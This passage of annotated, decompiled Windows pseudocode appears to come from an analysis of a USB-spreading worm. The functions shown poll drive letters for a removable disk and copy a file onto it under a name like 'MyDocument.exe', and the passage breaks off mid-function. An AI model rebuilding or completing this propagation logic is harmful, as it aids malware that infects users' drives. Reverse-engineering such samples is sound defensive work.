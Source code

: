 }

void __noreturn sub_401580()
{
  int v0; // esi@2
  CHAR NewFileName; // [sp+10h] [bp-104h]@2
  while ( 1 ) // forever
  {
    if ( sub_4012E0() / 110 )
    {
      Sleep(0x64u);
    }
    else
    {
      v0 = sub_4012E0();
      sub_4013A0(v0);
      wsprintfA(&NewFileName, aCMydocument_ex, v0);
      CopyFileA(::NewFileName, &NewFileName, 1);
    }
  }
}

signed int sub_4012E0()
{
  int v0; // ebx@1
  CHAR RootPathName; // [sp+10h] [bp-14h]@2
  int v3; // [sp+18h] [bp-Ch]@1
  int v4; // [sp+1Ch] [bp-8h]@1
  char v5; // [sp+20h] [bp-4h]@1

  v3 = dword_4090F0;                            // 'gfed'
  v4 = dword_4090F4;                            // 'kjih'
  v5 = byte_4090F8;                             // 0
  v0 = 0;
  while ( 1 )
  {
    wsprintfA(&RootPathName, aC_0, *((_BYTE *)&v3 + v0));
    strcat(&RootPathName, asc_409038);
    if ( GetDriveTypeA(&RootPathName) == 2 ) // removable disc
      return *((_BYTE *)&v3 + v0);
    if ( v0 == 8 ) // no removable disc, break
      break;
    Sleep(0x64u);
    if ( ++v0 >= 9 )
      return 0;
  }
  return 110;
}

HANDLE __cdecl sub_4013A0(int a1)
{
  HANDLE result; // eax@4
  HANDLE v2; // edi@4
  CHAR *v3; // [sp-8h] [bp-770h]@2
  CHAR PathName; // [sp+10h] [bp-758h]@1
  struct _WIN32_FIND_DATAA FindFileData; // [sp+114h] [bp-654h]@4
  char v6; // [sp+254h] [bp-514h]@1
  CHAR NewFileName; // [sp+358h] [bp-410h]@2
  CHAR FileName; // [sp+45Ch] [bp-30Ch]@4
  CHAR ExistingFileName; // [sp+560h] [bp-208h]@8
  CHAR v10; // [sp+664h] [bp-104h]@8

  wsprintfA(&PathName, aC, a1);
  strcpy(&v6, &PathName);
  strcat(&PathName, aMydocuments);
  if ( _access(&PathName, 0) ) // MyDocuments not exist